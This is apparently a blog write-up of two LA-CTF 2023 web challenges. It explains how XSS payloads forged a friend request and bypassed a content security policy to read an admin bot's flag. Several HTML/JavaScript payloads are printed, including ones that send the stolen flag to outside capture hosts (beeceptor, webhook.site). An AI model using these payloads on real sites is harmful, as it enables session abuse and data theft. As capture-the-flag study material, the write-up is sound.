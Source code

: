 ```yaml
---
layout: writeup
title: LA-CTF 2023 - Web
date: 2023-2-14
---
```


## Metaverse
This challenge revolved around an incredibly ugly social media website called "Metaverse" where the flag was stored as the "display name" of the admin bot on the website.  In our posts, we could inject arbitrary HTML which would automatically send a friend request to our own account (after we had also sent a friend request to the admin bot).

Here was the payload I used to win:
```html
<script>fetch("/friend", {method: "POST", body:"username=milan", headers: {"Content-Type": "application/x-www-form-urlencoded"}})</script></p>
```

The resulting flag was: `lactf{please_metaget_me_out_of_here}`.

## California State Police

This was very similar to `metaverse`.  It was another website where we could create arbitrary HTML pages--however with a very restrictive CSP (content security policy): `"default-src 'none'; script-src 'unsafe-inline'"`.  This CSP prevents us from sending any typical `fetch` requests or using the `src` attribute of HTML tags to load external resources. 

However, since it allows us to include inline javascript through `<script>` tags, we could use either `document.location` or `window.open` to redirect the user and essentially let us perform any arbitrary `GET` requests.  

Unfortunately, to retrieve the flag requires getting the admin bot to send a `POST` request to the backend:

```javascript
app.get("/flag", (req, res) => {
    res.status(400).send("you have to POST the flag this time >:)");
});

app.post("/flag", (req, res) => {
    if (req.cookies.adminpw === adminpw) {
        res.send(flag);
    } else {
        res.status(400).send("no hacking allowed");
    }
});
```

I pretty much had no idea on how to perform this type of request, but one of my teammates (shout out to @BobbySinclusto) realized we could use a `<form method="POST">` tag to send a POST request since we can have our javascript invoke the `.submit` attribute on it.  Triggering a POST request via a form submission will redirect our current web-page to the resulting endpoint (which will be the text of the flag)--which isn't immediately helpful (we can't execute javascript after the form submission redirects our page).

So, the trick I came up with was to create a post that would instantly trigger a POST request to the flag route, and then create another post which would open that post with `window.open` and then, since the `window` API lets us access the DOM of the opened page, read the flag text and then send it to our own endpoint by re-assigning `document.location`.

### Post 1: Instantly sends POST request to `/flag`
```html
<!DOCTYPE html>
<html>
<head>
</head>
<body>
<h1>pwned by OSUSEC</h1>
<form id="evil" action="/flag" method="post">
</form>
<script>
setTimeout( () => {
document.getElementById("evil").submit()
}, 2000)
</script>
</body>
</html>
```
### Post 2: Window.open & document.location 2 win
```html
<!DOCTYPE html>
<html>
<head>
</head>
<body>
<h1>pwned by OSUSEC</h1>
<script>
a = window.open("https://california-state-police.lac.tf/report/7cb90fea-4839-4079-b750-c1745ba5ff1f")
setTimeout(() => {
  document.location = "https://mmemmeme.free.beeceptor.com/q="+a.document.getElementsByTagName('body')[0].textContent
}, 200)
</script>
</body>
</html>
```

And BOOM, looking in beeceptor I got a flag: `lactf{m4yb3_g1v1ng_fr33_xss_1s_jus7_4_b4d_1d3a}`.

One technical note for this window.open trick to work is that I needed to set a short timeout for the window to actually load, since if I tried to read the opened'd windows contents immediately it would just return the HTML of my post.  This timeout still had to finish quickly though since the Admin bot would leave the webpage after like 500ms.

Looking at the [Author's solution](https://raw.githubusercontent.com/uclaacm/lactf-archive/main/2023/web/california-state-police/solve.txt):
```html
<script>w=window.open("/flag");w.onload=()=>w.document.write(`<img src=x onerror="fetch('/flag',{method:'POST'}).then(x=>x.text()).then(x=>fetch('https://webhook.site/026ae782-0cfc-4233-b1e3-72e259f883e7?a='+encodeURIComponent(x)))">`)</script>
```

They just used the `window.open` trick to first fail on the GET route version of flag (which won't load the flag text--see server-side code above) and then actually *write HTML* to the opened window with an XSS payload that will invoke fetch to send a POST request to the `/flag` route, and then with promises forward that flag to their own endpoint.  Honestly, this solution shocked me since it involved a POST request being made with `fetch`, which shouldn't get allowed by the CSP.  

Well, it turns out the middleware setting the CSP gets called AFTER they defined the flag routes!

```javascript
// ^ /flag routes up here

app.use((req, res, next) => {
    res.set(
        "Content-Security-Policy",
        "default-src 'none'; script-src 'unsafe-inline'"
    );
    next();
});

// BELOW HERE ARE THE ROUTES SERVING HTML!
```

Reading this [stack overflow post](https://stackoverflow.com/questions/24258782/node-express-4-middleware-after-routes) seems to confirm my suspicions about this behavior from express.

Now, the order of the declaration of the middle-ware doesn't necessarily matter. For instance, if they had the flag routes call `next()` after `res.send()` then they would have a CSP get set in one of the response headers.  I totally missed this detail when analyzing the given express server source code but will keep this in mind for future challenges.

